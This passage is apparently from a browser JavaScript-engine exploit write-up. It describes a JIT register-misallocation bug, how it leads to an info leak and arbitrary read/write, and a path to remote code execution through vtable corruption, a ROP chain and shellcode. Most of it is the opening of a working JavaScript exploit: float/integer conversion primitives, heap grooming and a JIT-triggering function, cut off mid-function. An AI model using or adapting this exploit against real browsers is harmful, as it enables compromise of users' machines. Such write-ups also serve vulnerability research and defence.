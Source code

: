 This code will be compiled such that in the last statement, when the inline property x of a is accessed, it will actually access the inline property y of b due to the register misallocation and the fact that x and y are stored at the same offset in the objects. As it expects the loaded property to be a double, it will return the loaded value as number. Since it now loads property y it returns a pointer as a double, resulting in an info leak. Note that for this PoC to work the argument b has to have a property named s which contains a string, otherwise different compilation will lead to different register usage and the bug will not be triggered. To get an arbitrary read/write it is possible to force a type confusion of an object with inline properties and a Float64Array. With that the backing storage pointer of the Float64Array can be overwritten with an arbitrary address by assigning to the inline property of the object. For RCE, a DOM object with a vtable is then corrupted and a virtual function called on it. From there a small ROP chain is triggered which loads the shellcode and jumps into it.

**Exploit**<br>
```JavaScript
<script>
print = alert;
var convert = new ArrayBuffer(0x100);
var u32 = new Uint32Array(convert);
var f64 = new Float64Array(convert);
var scratch = new ArrayBuffer(0x100000);
var scratch_u8 = new Uint8Array(scratch);
var scratch_u32 = new Uint32Array(scratch);
var BASE = 0x100000000;
var shellcode = null;
function hex(x) {
    return `0x${x.toString(16)}`
}
function bytes_to_u64(bytes) {
    return (bytes[0]+bytes[1]*0x100+bytes[2]*0x10000+bytes[3]*0x1000000
                +bytes[4]*0x100000000+bytes[5]*0x10000000000);
}
function i2f(x) {
    u32[0] = x % BASE;
    u32[1] = (x - (x % BASE)) / BASE;
    return f64[0];
}
function f2i(x) {
    f64[0] = x;
    return u32[0] + BASE * u32[1];
}
function fail(msg) {
    print("FAIL " + msg);
    throw null;
}
function setup() {
    var container = {a: {}};
    var master = new Float64Array(0x100);
    var victim = new Uint8Array(0x100);
    var objs = [];
    for (var i = 0; i < 100; i++) {
        let x = {x: 13.37, y:victim, z:container};
        objs[i] = {x: 'asd', p1: {}, p2: {}, p3: {}, p4: x, p5: x, p6: {}};
    }
    var o = objs[0];
    var a = new Float64Array(1024);
    function f(a, b) {
        let p = b;
        for (; p.x < 0; p = p.x)
            while (p === p) {}
        for (var i = 0; i < 10000000; ++i){ }
        if (action==1) {
            victim_addr_f = a[3];
            container_addr_f = a[4];
```